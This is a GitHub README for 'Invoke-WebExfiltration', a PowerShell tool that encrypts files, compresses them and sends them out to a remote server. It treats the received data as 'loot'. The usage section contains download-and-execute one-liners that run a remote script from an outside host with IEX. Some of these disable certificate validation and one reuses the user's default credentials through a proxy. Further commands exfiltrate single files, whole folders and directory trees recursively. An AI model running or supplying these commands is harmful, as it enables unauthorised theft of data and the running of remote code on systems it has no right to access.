 # Invoke-WebExfiltration
Exfiltrate data via PowerShell HTTP(s) POST request (with file gzip compression and AES-256 encryption)

Exfiltrate files to a remote server in a secure, encrypted way


# Description

# Features



# Technical details / design thoughts

- File encryption
  - File names and file content is encrypted with AES-256
  - Key size: 256 bit, block size: 128 bit, IV: 128 bit, PKCS7 padding
  - The password is SHA256 hashed to receive a 256 bit long key
  - This means that it is even safe to transfer files via plain text HTTP (assuming you use a strong password)

- Gzip compression
  - After encryption the binary data is compressed via Gzip.
  - It's quick for not too large files and reduces the size by a good few percent

- No password protection for file upload
  - The server will only accept data from POST requests which it can successfully decrypt. 
  - It tests that first on the file name.
  - If the content can't be decrypted the file name the file binary will be ignored and is discarded.
  - I kind of see that as a password protection 'light' for the file upload to prevent unwanted uploads from 3rd parties.

- Loot folder structure
  - The tool keeps the identical folder structure as it exists on the client

# ToDo:
- I'm unhappy with the way SSL/HTTPS is done. Needs improvement
- 


# Limitations
- Large files (100MB) should be split into chunks and then exfiltrated (see examples)

# Help
```bash
...
```


# Installation

## Linux
```bash
git clone https://github.com/PhilippRieth/Invoke-WebExfiltration.git
cd Invoke-WebExfiltration
pip3 install virtualenv
virtualenv -p python3 venv
source venv/bin/active
pip install -r requirements.txt
```

## Windows
```powershell
git clone https://github.com/PhilippRieth/Invoke-WebExfiltration.git
cd Invoke-WebExfiltration

pip3.exe install virtualenv
virtualenv.exe -p python3 venv
.\venv\Scripts\activate.ps1

pip install -r requirements.txt
```

# Usage & Examples

```bash


```


## Load `IWE` into PowerShell 

HTTP
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://hackerman1337.net:8000/iwe')
```

HTTPS
```powershell
# Load via WebClient and certificate validation bypass. Does not work in pwsh.exe
[Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
IEX (New-Object Net.WebClient).DownloadString('https://hackerman1337.net/iwe')

# Load via Invoke-WebRequest and certificate validation bypass 
IWR 'https://hackerman1337.net/iwe' -SkipCertificateCheck | IEX
```

## Load `IWE` via proxy into PowerShell
1. Use system or custom proxy
2. Decide which proxy credentials to use (ignore if no authentication is needed)
3. Decide if x509 certificate errors should be ingored
```powershell
# 1. User system proxy
$proxy = [System.Net.WebRequest]::GetSystemWebProxy()
# 1. User custom proxy
$proxy = New-Object System.Net.WebProxy("http://yourProxy:8080")

# 2. Use current user credentials for Kerberos / NTLM authentication
$proxy.useDefaultCredentials = $true
$proxy.Credentials = [System.Net.CredentialCache]::DefaultCredentials
# 2. Use custom credentials for proxy
proxy.Credentials=Get-Credential

# 3. Ignore certificate check (needed if self signed certificate is used)
# Does not work in pwsh.exe, use powershell.exe!
[Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}

$wc = new-object system.net.WebClient
$wc.proxy = $proxy
IEX $wc.DownloadString('https://hackerman1337.net:8000/iwe')
```

## Exfiltrate files

```powershell
# Exfiltrate single file
IWE -File .\file.bin

# Exfiltrate all files in current folder
ls | IWE

# Exfiltrate all files in curent dir starting with 
ls file* | IWE

# Exfiltrate all files and sub directories 
ls -Recurse * | IWE
```

## Exfiltrate large files (split into chunks)
Large files (>100MB) should be split into smaller chunks.
```powershell
tba.
```

